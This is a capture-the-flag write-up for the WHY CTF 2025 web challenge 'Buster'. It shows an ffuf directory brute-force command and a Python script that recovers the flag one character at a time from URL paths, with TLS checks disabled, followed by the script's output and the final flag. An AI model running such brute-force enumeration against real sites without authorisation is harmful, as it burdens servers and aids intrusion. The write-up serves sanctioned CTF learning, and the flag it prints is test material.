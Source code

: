 ```yaml
---
name: Buster (2025)
event: WHY CTF 2025
category: Web
description: Writeup for Buster (Web) - WHY CTF (2025) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Buster

## Description

> Using dirbuster or any other brute-forcing tool isn't needed to solve the challenges of this CTF. Using these brute force tools will not help you at all, but it will result in a lot of unnecessary traffic and requests. This activity could interfere with the availability of the CTF systems and services, so please don’t do this. However, [this challenge](https://buster.ctf.zone) is the _only_ exception in the CTF. So, do your best dirbustering to solve it, and then never use that tool again.

## Solution

The challenge name and description \[strongly\] hints that we need to do some brute forcing of files/directories. Visiting the website confirms this..

![](images/0.PNG)

If we try to visit a non-existing page, e.g. `/admin` it says `Wrong way!`

You could use many tools, e.g. `gobuster` or `burp`. I'll use `ffuf` and check for PHP/JS file extensions, filtering out responses that contain the word "Wrong" (invalid)

```bash
ffuf -c -u https://buster.ctf.zone/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php,.js -fr Wrong

.htpasswd.php           [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 27ms]
.htpasswd.js            [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 29ms]
f                       [Status: 200, Size: 1932, Words: 527, Lines: 53, Duration: 25ms]
favicon.ico             [Status: 200, Size: 15406, Words: 24, Lines: 20, Duration: 28ms]
fla                     [Status: 200, Size: 1932, Words: 527, Lines: 53, Duration: 29ms]
flag                    [Status: 200, Size: 1932, Words: 527, Lines: 53, Duration: 31ms]
images                  [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 28ms]
server-status           [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 27ms]
```

Notice that we have `/f`, `/fla`, `/flag` all showing 200 OK with the same response length. If we try to access `/flag{` it is also a 200 OK, but `/flag}` is not.

What does that tell us? The flag _is_ the path! We can brute force each character (\[0-9a-f\]) until we reach a `}`.

I used ChatGPT to make a quick PoC. The server was super slow with lots of timeouts, so some logic was needed to repeat chars where needed.

```python
import requests
import string
import urllib3
from requests.exceptions import RequestException
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

BASE = "https://buster.ctf.zone/"
FLAG_START = "flag{"
charset = "abcdef" + string.digits + "}"
flag = FLAG_START
baseline_resp = requests.get(BASE + FLAG_START + "zzz", verify=False)
baseline_content = baseline_resp.content

pos = len(flag)  # start guessing at position after "flag{"

while not flag.endswith("}"):
    print(f"Current flag: {flag}")
    i = 0
    found = False
    while not found:
        guess = flag + charset[i]
        try:
            r = requests.get(BASE + guess, verify=False)
            if r.content != baseline_content:
                flag += charset[i]
                print(
                    f"[+] Found char '{charset[i]}' at position {pos} -> {flag}")
                pos += 1
                found = True
                break  # move to next character
            else:
                print(f"[-] Wrong char '{charset[i]}' at position {pos}")
            i += 1
        except RequestException:
            print(f"[!] Request failed for char '{charset[i]}', retrying...")
            continue
    else:
        print("[-] No matching char found, stopping.")
        break

print(f"[+] Final flag: {flag}")
```

We run the script and see it working as expected.

```bash
python poc.py

Current flag: flag{
[-] Wrong char 'a' at position 5
[-] Wrong char 'b' at position 5
[-] Wrong char 'c' at position 5
[+] Found char 'd' at position 5 -> flag{d
Current flag: flag{d
[-] Wrong char 'a' at position 6
[-] Wrong char 'b' at position 6
[-] Wrong char 'c' at position 6
[-] Wrong char 'd' at position 6
[+] Found char 'e' at position 6 -> flag{de
Current flag: flag{de
[-] Wrong char 'a' at position 7
[-] Wrong char 'b' at position 7
[+] Found char 'c' at position 7 -> flag{dec
Current flag: flag{dec
[+] Found char 'a' at position 8 -> flag{deca
Current flag: flag{deca
```

Let it finish and we'll receive the flag.

```bash
[+] Found char '}' at position 37 -> flag{deca3b962fc316a6d69a7e0c2c33c7fa}
[+] Final flag: flag{deca3b962fc316a6d69a7e0c2c33c7fa}
```

Flag: `flag{deca3b962fc316a6d69a7e0c2c33c7fa}`
